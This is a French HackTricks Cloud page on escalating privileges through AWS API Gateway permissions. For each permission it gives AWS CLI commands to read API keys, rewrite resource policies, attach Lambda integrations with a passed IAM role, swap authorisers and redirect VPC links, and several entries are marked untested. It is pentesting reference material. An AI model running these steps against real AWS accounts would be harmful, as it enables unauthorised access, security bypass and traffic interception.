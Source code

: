 # AWS - Privilège d'escalade Apigateway

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>

## Apigateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Avec cette autorisation, vous pouvez générer des clés API des API configurées (par région).

```bash
aws --region <region> apigateway create-api-key
```

**Impact potentiel :** Vous ne pouvez pas obtenir de privilège d'escalade avec cette technique, mais vous pouvez accéder à des informations sensibles.

### `apigateway:GET`

Avec cette autorisation, vous pouvez obtenir les clés API générées des API configurées (par région).

```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```

**Impact potentiel :** Vous ne pouvez pas obtenir de privilège d'escalade avec cette technique, mais vous pouvez accéder à des informations sensibles.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Avec ces autorisations, il est possible de modifier la politique de ressource d'une API pour vous donner accès à son appel et abuser de l'accès potentiel que la passerelle API pourrait avoir (comme l'invocation d'une lambda vulnérable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
    --rest-api-id api-id \
    --patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impact potentiel :** Vous ne pourrez généralement pas obtenir de privilège d'escalade directement avec cette technique, mais vous pouvez accéder à des informations sensibles.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Besoin de tests
{% endhint %}

Un attaquant disposant des autorisations `apigateway:PutIntegration`, `apigateway:CreateDeployment` et `iam:PassRole` peut **ajouter une nouvelle intégration à une API Gateway REST API existante avec une fonction Lambda à laquelle est attaché un rôle IAM**. L'attaquant peut ensuite **déclencher la fonction Lambda pour exécuter du code arbitraire et potentiellement accéder aux ressources associées au rôle IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Ajouter une nouvelle intégration à l'API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Créer un déploiement pour l'API Gateway REST API mise à jour
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès aux ressources associées au rôle IAM de la fonction Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Besoin de tests
{% endhint %}

Un attaquant disposant des autorisations `apigateway:UpdateAuthorizer` et `apigateway:CreateDeployment` peut **modifier un auteur API Gateway existant** pour contourner les vérifications de sécurité ou exécuter du code arbitraire lors de la demande d'API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Mettre à jour l'auteur API Gateway
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Créer un déploiement pour l'API Gateway REST API mise à jour
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Contournement des vérifications de sécurité, accès non autorisé aux ressources de l'API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Besoin de tests
{% endhint %}

Un attaquant disposant de l'autorisation `apigateway:UpdateVpcLink` peut **modifier un lien VPC existant pour le faire pointer vers un autre Network Load Balancer, redirigeant potentiellement le trafic de l'API privée vers des ressources non autorisées ou malveillantes**.

```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Mettre à jour le lien VPC
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```

**Impact potentiel** : Accès non autorisé aux ressources de l'API privée, interception ou perturbation du trafic de l'API.

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **dépôts Github.**

</details>